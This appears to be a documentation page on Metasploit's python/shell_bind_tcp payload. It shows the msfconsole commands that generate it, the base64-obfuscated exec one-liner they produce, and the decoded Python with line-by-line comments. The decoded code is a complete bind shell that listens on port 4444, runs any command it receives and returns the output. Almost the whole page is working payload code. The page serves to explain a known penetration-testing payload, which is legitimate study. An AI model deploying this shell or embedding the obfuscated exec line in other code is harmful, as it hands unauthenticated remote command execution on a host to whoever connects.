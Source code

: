 # python/shell_bind_tcp (single payload)

Source: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/python/bind_tcp.rb

### Generate
```
msf5 > use python/shell_bind_tcp
msf5 payload(python/shell_bind_tcp) > generate -f raw -o single.py
```

### Result
```python
exec('aW1wb3J0IHNvY2tldCxvcwpzbz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKc28uYmluZCgoJycsNDQ0NCkpCnNvLmxpc3RlbigxKQpzbyxhZGRyPXNvLmFjY2VwdCgpCkFTPUZhbHNlCndoaWxlIG5vdCBBUzoKCWRhdGE9c28ucmVjdigxMDI0KQoJc3RkaW4sc3Rkb3V0LHN0ZGVyciw9b3MucG9wZW4zKGRhdGEpCglzdGRvdXRfdmFsdWU9c3Rkb3V0LnJlYWQoKStzdGRlcnIucmVhZCgpCglzby5zZW5kKHN0ZG91dF92YWx1ZSkK'.decode('base64'))
```

### Base64 Decoded Content
```python
import socket,os
so=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
so.bind(('',4444))                                    # bind to first available interface (0.0.0.0)
so.listen(1)                                          # listen (blocking)
so,addr=so.accept()                                   # accept connection
AS=False
while not AS:
	data=so.recv(1024)                                  # recv cmd buffer
	stdin,stdout,stderr,=os.popen3(data)                # exec cmd as subprocess
	stdout_value=stdout.read()+stderr.read()
	so.send(stdout_value)                               # return stdout/stderr
```
